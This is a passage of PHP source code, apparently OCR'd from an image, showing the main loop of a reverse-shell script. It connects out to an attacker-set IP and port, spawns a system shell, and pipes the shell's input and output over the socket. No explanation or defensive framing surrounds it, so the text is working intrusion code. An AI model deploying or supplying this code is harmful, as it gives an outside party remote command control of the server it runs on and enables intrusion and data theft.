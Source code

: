 ```php
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
	if (in_array($pipes[2], $read_a)) {
```